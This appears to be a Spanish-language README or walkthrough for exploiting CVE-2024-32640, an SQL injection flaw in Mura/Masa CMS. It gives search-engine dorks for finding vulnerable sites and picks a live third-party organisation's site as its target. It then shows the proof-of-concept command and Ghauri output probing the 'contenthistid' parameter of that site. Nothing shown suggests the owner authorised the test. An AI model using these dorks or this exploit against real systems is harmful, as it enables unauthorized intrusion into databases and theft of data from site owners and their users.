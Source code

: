 # Muraider - CVE-2024-32640
___
## Dorks
___
- Shodan-query: `'Generator: Masa CMS'`
- Google: `"powered by Mura CMS"`
- FOFA: `app="Mura-CMS"`
___
Identificamos un target.
```bash
http://www.cisv.be/about-us/cisv-international/
```

Descargamos el exploit desde el siguiente enlace:
- [GitHub - Stuub/CVE-2024-32640-SQLI-MuraCMS: CVE-2024-32640 | Automated SQLi Exploitation PoC](https://github.com/Stuub/CVE-2024-32640-SQLI-MuraCMS?tab=readme-ov-file)

Ejecutamos el exploit.
```bash
┌──(kali㉿kali)-[~/Exploits/CVE-2024-32640-SQLI-MuraCMS]
└─$ python3 CVE-2024-32640.py -u http://www.cisv.be/about-us/cisv-international/ -g "--dbs"
```

Si el parámetro es *vulnerable*, obtendremos la siguiente salida:
```bash
[!] Checking for SQL Injection
[+] Target is vulnerable to SQL Injection.

[!] For exploitation, use Ghauri:
[+] https://github.com/r0oth3x49/ghauri                                                                                                                      
Do you want to exploit with Ghauri? (Y/N)Y
```

Resultado de Ghauri.
```bash
[15:07:38] [INFO] testing connection to the target URL
[15:07:39] [INFO] testing if the target URL content is stable
[15:07:41] [INFO] target URL content is stable
[15:07:41] [INFO] heuristic (basic) test shows that GET parameter 'contenthistid' might be injectable (possible DBMS: 'MySQL')
[15:07:41] [INFO] testing for SQL injection on GET parameter 'contenthistid'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y

for the remaining tests, do you want to include all tests for 'MySQL'? [Y/n] 
```

